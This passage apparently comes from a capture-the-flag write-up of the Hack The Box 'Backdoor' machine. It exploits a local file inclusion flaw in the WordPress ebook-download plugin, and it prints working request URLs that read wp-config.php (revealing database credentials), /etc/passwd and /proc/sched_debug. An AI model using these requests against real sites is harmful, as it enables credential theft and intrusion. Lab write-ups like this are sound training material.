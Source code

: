 Looking through **/themes** and **/upgrade** show that they're empty. There are some additional directories in **uploads** but no files in them.

Not having found anything else I search for **ebook-download** exploits and find [**this exploit on exploit-db**](https://www.exploit-db.com/exploits/39575).

Looking over the exploit shows that the ebook-download plugin is vulerable to **LFI**. We can use the following example to view the contents of the **wp-config** file which will often times list usernames and passwords for the database:

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

The link above will download the file to your computer and opening it up shows us some credentials:

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

I try to login to the admin and wordpressuser accounts on the webpage using the password above but have no luck. I also try and use mysql from the command line to connect over to the database but no luck there either.

The following will download the **/etc/passwd** file:

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd
```

It ends up that there are only 2 users with a shell on the system with root and:

```
user:x:1000:1000:user:/home/user:/bin/bash
```

I try to login as this user with the password from the wp-config.php file and am unable.

Taking a look at what's running on the system via the **sched_debug** file:

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/sched_debug
```

Not much interesting in there but the **gdbserver** does stand out.

```
runnable tasks:
S           task   PID         tree-key  switches  prio     wait-time             sum-exec        sum-sleep
S      gdbserver 92258        30.771183       218   120         0.000000        25.481210         0.000000 0 0 /autogroup-142
```
